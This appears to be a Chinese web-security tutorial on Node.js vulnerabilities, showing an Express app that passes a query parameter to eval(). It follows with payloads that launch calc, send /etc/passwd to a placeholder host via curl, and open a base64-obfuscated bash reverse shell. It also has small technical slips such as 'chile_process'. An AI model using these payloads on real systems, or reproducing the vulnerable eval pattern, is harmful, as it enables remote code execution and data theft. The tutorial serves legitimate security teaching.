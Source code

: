 Node.js 常见漏洞学习与总结

[**Threezh1**](https://xz.aliyun.com/u/15177) / 2020-02-11 08:58:36 / 浏览数 34164 [社区板块](https://xz.aliyun.com/tab/4) [WEB安全](https://xz.aliyun.com/node/16)**[顶(5)](javascript:) [踩(0)](javascript:)**

------

## 危险函数所导致的命令执行

### eval()

eval() 函数可计算某个字符串，并执行其中的的 JavaScript 代码。和PHP中eval函数一样，如果传递到函数中的参数可控并且没有经过严格的过滤时，就会导致漏洞的出现。

简单例子：

main.js

```
var express = require("express");
var app = express();

app.get('/eval',function(req,res){
    res.send(eval(req.query.q));
    console.log(req.query.q);
})

var server = app.listen(8888, function() {
    console.log("应用实例，访问地址为 http://127.0.0.1:8888/");
})
```

**漏洞利用：**

Node.js中的chile_process.exec调用的是/bash.sh，它是一个bash解释器，可以执行系统命令。在eval函数的参数中可以构造`require('child_process').exec('');`来进行调用。

弹计算器(windows)：

```
/eval?q=require('child_process').exec('calc');
```

读取文件(linux)：

```
/eval?q=require('child_process').exec('curl -F "x=`cat /etc/passwd`" http://vps');;
```

反弹shell(linux)：

```
/eval?q=require('child_process').exec('echo YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMjcuMC4wLjEvMzMzMyAwPiYx|base64 -d|bash');

YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMjcuMC4wLjEvMzMzMyAwPiYx是bash -i >& /dev/tcp/127.0.0.1/3333 0>&1 BASE64加密后的结果，直接调用会报错。

注意：BASE64加密后的字符中有一个+号需要url编码为%2B(一定情况下)
```
